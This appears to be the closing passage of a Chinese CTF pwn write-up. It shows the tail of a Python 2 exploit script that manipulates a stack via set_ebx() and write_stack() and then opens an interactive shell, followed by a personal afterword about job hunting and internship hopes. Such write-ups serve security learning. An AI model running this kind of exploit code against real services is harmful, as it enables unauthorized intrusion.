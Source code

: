 ```python
			print 'recive %x and new stack is %x' % (value, stack[index])

	s.send('Bye!\n')


print s.recv(1024)
set_ebx()
write_stack()
s.interactive()
```

## 后记

从开学到现在过得真的跟屎一样，面了三家公司只拿到了一个offer，虽然拿到的这个是三家里面最牛逼的，但是更让我感觉到了惶恐不安，发现自己真的跟想象中的还差了很远，好多东西都记不住，智商被碾压，惨惨惨。我也想成为大牛啊，希望接下来到实习结束能有个质的提升，求实习能转正。